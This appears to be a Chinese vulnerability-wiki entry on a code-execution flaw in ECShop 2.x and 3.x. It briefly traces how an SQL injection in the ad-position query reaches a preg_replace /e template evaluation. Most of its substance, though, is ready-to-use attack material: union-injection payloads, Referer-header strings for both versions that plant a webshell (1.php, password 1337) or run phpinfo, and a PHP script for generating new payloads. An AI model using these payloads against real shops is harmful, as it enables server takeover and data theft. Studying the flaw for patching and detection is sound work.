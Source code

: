ECShop \<= 2.7.x 代码执行漏洞
=============================

一、漏洞简介
------------

二、漏洞影响
------------

ECShop（2.x、3.0.x、3.6.x）

三、复现过程
------------

### 漏洞分析

![](/Users/aresx/Documents/VulWiki/.resource/ECShop<=2.7.x代码执行漏洞/media/rId25.png)

继续看fetch函数

![](/Users/aresx/Documents/VulWiki/.resource/ECShop<=2.7.x代码执行漏洞/media/rId26.png)

追踪\_eval函数

![](/Users/aresx/Documents/VulWiki/.resource/ECShop<=2.7.x代码执行漏洞/media/rId27.png)

\$position\_style变量来源于数据库中的查询结构

![](/Users/aresx/Documents/VulWiki/.resource/ECShop<=2.7.x代码执行漏洞/media/rId28.png)

然后我们继续构造SQL注入，因为这段sql操作 order by部分换行了截断不了
所以需要在id处构造注释来配合num进行union查询

![](/Users/aresx/Documents/VulWiki/.resource/ECShop<=2.7.x代码执行漏洞/media/rId29.png)

payload

    SELECT a.ad_id, a.position_id, a.media_type, a.ad_link, a.ad_code, a.ad_name, p.ad_width, p.ad_height, p.position_style, RAND() AS rnd FROM `ecshop27`.`ecs_ad` AS a LEFT JOIN `ecshop27`.`ecs_ad_position` AS p ON a.position_id = p.position_id WHERE enabled = 1 AND start_time <= '1535678679' AND end_time >= '1535678679' AND a.position_id = ''/*' ORDER BY rnd LIMIT */ union select 1,2,3,4,5,6,7,8,9,10-- -

函数中有一个判断

![](/Users/aresx/Documents/VulWiki/.resource/ECShop<=2.7.x代码执行漏洞/media/rId30.png)

我们 id传入'/\*

num传入\*/ union select 1,0x272f2a,3,4,5,6,7,8,9,10-- -就能绕过了

![](/Users/aresx/Documents/VulWiki/.resource/ECShop<=2.7.x代码执行漏洞/media/rId31.png)

var\_dump一下

![](/Users/aresx/Documents/VulWiki/.resource/ECShop<=2.7.x代码执行漏洞/media/rId32.png)

![](/Users/aresx/Documents/VulWiki/.resource/ECShop<=2.7.x代码执行漏洞/media/rId33.png)

再看fetch函数,传入的参数被fetch\_str函数处理了

![](/Users/aresx/Documents/VulWiki/.resource/ECShop<=2.7.x代码执行漏洞/media/rId34.png)

追踪fetch\_str函数，这里的字符串处理流程比较复杂

![](/Users/aresx/Documents/VulWiki/.resource/ECShop<=2.7.x代码执行漏洞/media/rId35.png)

    return preg_replace("/{([^\}\{\n]*)}/e", "\$this->select('\\1');", $source);

这一行意思是比如\$source是xxxx{\$asd}xxx,那么经过这行代码处理后就是返回this-\>select('\$asd')的结果

看看select函数

![](/Users/aresx/Documents/VulWiki/.resource/ECShop<=2.7.x代码执行漏洞/media/rId36.png)

第一个字符为\$时进入\$this-\>get\_val函数

![](/Users/aresx/Documents/VulWiki/.resource/ECShop<=2.7.x代码执行漏洞/media/rId37.png)

我们\$val没有.\$又进入make\_var函数

![](/Users/aresx/Documents/VulWiki/.resource/ECShop<=2.7.x代码执行漏洞/media/rId38.png)

最后这里引入单引号从变量中逃逸

![](/Users/aresx/Documents/VulWiki/.resource/ECShop<=2.7.x代码执行漏洞/media/rId39.png)

我们要闭合\_var所以最终payload是

    {$asd'];assert(base64_decode('ZmlsZV9wdXRfY29udGVudHMoJzEudHh0JywnZ2V0c2hlbGwnKQ=='));//}xxx

会在网站跟目录生成1.txt 里面内容是getshell

![](/Users/aresx/Documents/VulWiki/.resource/ECShop<=2.7.x代码执行漏洞/media/rId40.png)

### 2.x

phpinfo():

    Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:110:"*/ union select 1,0x27202f2a,3,4,5,6,7,8,0x7b24616263275d3b6563686f20706870696e666f2f2a2a2f28293b2f2f7d,10-- -";s:2:"id";s:4:"' /*";}554fcae493e564ee0dc75bdf2ebf94ca

webshell:

    Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:280:"*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:3:"'/*";}

　　会在网站根目录生成`1.php`，密码：`1337`

### 3.x

phpinfo():

    Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a

webshell:

    Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:289:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a

　　会在网站根目录生成`1.php`，密码：`1337`

### 小脚本

　　下面给出一个序列化的php脚本（第9个位置就是你想要的）：

    <?php
    $arr=array('num'=>'*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7B24617364275D3B617373657274286261736536345F6465636F646528275A6D6C735A56397764585266593239756447567564484D6F4A7A4575634768774A79776E50443977614841675A585A686243676B58314250553152624F546C644B543867506963702729293B2F2F7D787878,10-- -','id'=>'\'/*');
    echo serialize($arr);
    ?>

参考链接
--------

> https://cloud.tencent.com/developer/article/1333449
